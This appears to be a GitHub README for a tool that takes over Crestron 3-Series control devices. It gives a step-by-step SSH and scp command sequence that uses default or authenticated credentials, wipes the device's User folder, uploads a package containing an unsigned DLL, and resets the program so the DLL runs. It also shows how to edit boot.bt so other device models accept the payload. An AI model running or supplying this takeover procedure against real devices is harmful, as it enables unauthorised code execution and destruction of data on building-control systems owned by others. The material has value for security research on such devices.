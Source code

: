 # crestron
Tools for taking over Crestron 3-Series devices

If you have authenticated access, or the default `crestron:<blank>` credentials are still enabled, you can use the above Simpl applications to load an unsigned DLL that will be executed when the program is (re)started with PROGRESET.

The DLL folder contains a Visual Studio 2008 project with a small class. Recompiling the class and replacing the DLL.dll in the LPZ file of your choice (either in the file itself or after deployment) will set you up for success, hopefully.

This assumes you are starting from a clean slate. If you would like to factory reset the device to ensure nothing weird happens, SSH into the device and run `INITIALIZE`.
```
mkdir tmp
cd tmp
unzip ../pro3.lpz
ssh crestron@192.168.1.240 del \\User\\*
scp * crestron@192.168.1.240:\\User
ssh crestron@192.168.1.240 copy \\User\\boot.bt \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\fdsa_archive.zip \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\fdsa.bin \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\fdsa.cdm \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\fdsa.dll \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\fdsa.rte \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SimplSharpCustomAttributesInterface.dll \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SimplSharpData.dat \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SimplSharpHelperInterface.dll \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SplusLibrary.dll \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SplusManagerApp.exe \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SplusObjects.dll \\Simpl\\App01\\
ssh crestron@192.168.1.240 progregister -P:all
ssh crestron@192.168.1.240 progreset

```

# Other 3-Series Devices

If you can telnet into the device, the command prompt with contain the RackType that you can update boot.bt with.

```
bperry@bperry-Precision-T5610:/tmp/zip$ telnet 192.168.1.174
Trying 192.168.1.174...
Connected to 192.168.1.174.
Escape character is '^]'.
DMPS3-4K-150-C Console
Warning: Another console session is open 

DMPS3-4K-150-C>

```

In boot.bt, the RackType is in the first stanza and by default is the PRO3.

```
[LG_BOOT_DATA]
BinFileName=fdsa.bin
SMWFileName=fdsa.smw
NumberSymbols=15
NumberSignals=33
RouteFileName=fdsa.rte
CUZ=1.007.0017
RackType=PRO3
SymParamVersion=21.007.0017
NumberParameters=3
NumRealIntegralParams=0
NumRealStringParams=3
NVRAMUsed=0

[...snip...]
```

Replacing PRO3 with the device type will ensure the device does not reject the application.
